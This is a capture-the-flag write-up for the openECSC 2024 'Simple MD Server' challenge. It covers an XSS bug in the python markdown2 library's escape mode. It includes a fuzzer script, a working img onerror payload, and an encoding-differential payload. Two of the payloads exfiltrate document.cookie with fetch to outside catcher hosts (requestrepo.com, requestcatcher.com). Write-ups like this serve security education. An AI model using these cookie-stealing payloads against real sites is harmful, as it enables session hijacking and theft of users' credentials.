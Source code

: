 #md #xss #fuzzer #charset 
# ecsc24 - Simple MD Server

## Description
Yes, another markdown editor, but this time we keep it simple!
Site: [http://simplemdserver.challs.open.ecsc2024.it:47008](http://simplemdserver.challs.open.ecsc2024.it:47008)

## Overview
Classic notes app, supports markdown.

## Road to flag
The flag is inside admin bot's cookies:
```js
r = requests.post(
	BOT_HOST,
	headers={"X-Auth": BOT_SECRET},
	json={
		"actions": [
			{
					"type": "request",
					"url": CHALL_HOST,
			},
			{
					"type": "set-cookie",
					"name": "flag",
					"value": FLAG,
			},
			{
					"type": "request",
					"url": visit_url,
			},
		]
	},
)
```
-> XSS

## Code review
The app is really simple, uses python's socketserver and [markdown2](https://github.com/trentm/python-markdown2).
This is the main logic: `/preview` renders the given markdown.
```python
def markdown(self):
        query = urllib.parse.urlparse(self.path).query
        data = urllib.parse.parse_qs(query).get("x", [""])[0]

        # Convert markdown to HTML
        data = markdown2.markdown(data, safe_mode="escape")

        # Send response
        self.send_response(200)
        self.end_headers()
        self.wfile.write(bytes(f"{data}", "utf-8"))

    def do_GET(self):
        try:
            url = urllib.parse.urlparse(self.path)

            # Some kind of routing
            if url.path == "/":
                return self.static_page("index")
            elif url.path in ["/list", "/new", "/report"]:
                return self.static_page(url.path[1:])
            elif url.path == "/preview":
                return self.markdown()
            elif url.path == "/get":
                return self.get_document()
            else:
                self.send_response(404)
                self.end_headers()
                self.wfile.write(bytes("<h1>Not Found</h1>", "utf-8"))
```

## Exploit
I just fuzzed the markdown parser:
```python
import markdown2
import random
from bs4 import BeautifulSoup

def generate_random_md(codes):
    random_md = []
    length = random.randint(1, 50)
    payload = "//onerror=fetch(\"http://g106vnrl.requestrepo.com/?c=\"+document.cookie)"

    for i in range(length):
        random_index = random.randint(0, len(codes) - 1)
        if i == 0:
            random_md.append(codes[random_index].format(p=payload))
        else:
            random_md.append(codes[random_index].format(p=random_md[-1]))

    return ' '.join(random_md)


def check_for_unusual_attributes(element):
    usual_attributes = ['alt','src','href','title']
    found_attributes = set()
    soup = BeautifulSoup(element, 'html.parser')

    for tag in soup.find_all(True):
        for attr in tag.attrs:
            if attr not in usual_attributes:
                found_attributes.add(attr)
    
    return found_attributes

def start_fuzzing():
    codes = ["[{p}]({p})","https://x.com/?{p}","id=1","({p})","![{p}]({p})","`{p}`","*{p}*","> {p}","__{p}__",
    "# {p}","- {p}","[{p}]:","{p}\n-------------","> 1. {p}","[{p}][]\n[{p}]: http://{p}","![{p}][]\n[{p}]: http://{p}? \"{p}\"", "<p>{p}</p>", "<svg>"]

    try:
        while True:
            random_md = generate_random_md(codes)
            html = markdown2.markdown(random_md, safe_mode="escape")
            unusual_attributes = check_for_unusual_attributes(html)
            if unusual_attributes:
                print('Generated BBCode:', random_md)
                print('Unusual attributes found:', unusual_attributes)
                with open("payload.txt","w") as file:
                    file.write(random_md)
                break 
    except:
        pass

if __name__ == "__main__":
    start_fuzzing()
```
And came up with:
```
![](`" onerror=alert()//`)
```
Why this works? The library inserts code blocks into img `src` attribute, and does not escape quotes in `code` blocks.
https://github.com/trentm/python-markdown2/issues/603#issuecomment-2369068844

`openECSC{K33P_I7_51Mple____?}`


#### Intended solution
The intended solution leverages [encoding differentials](<TL;DR: https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/>)
```
JS = "fetch('https://pwn.requestcatcher.com/pwn?' + document.cookie); while(1);"
JS = f"eval(atob('{base64.b64encode(JS.encode()).decode()}'))"

PAYLOAD = b"[\x1b(B](pwn '\x1b$@')[pwn]( url#= ' autofocus onfocus=" + JS.encode() + b"//')"
```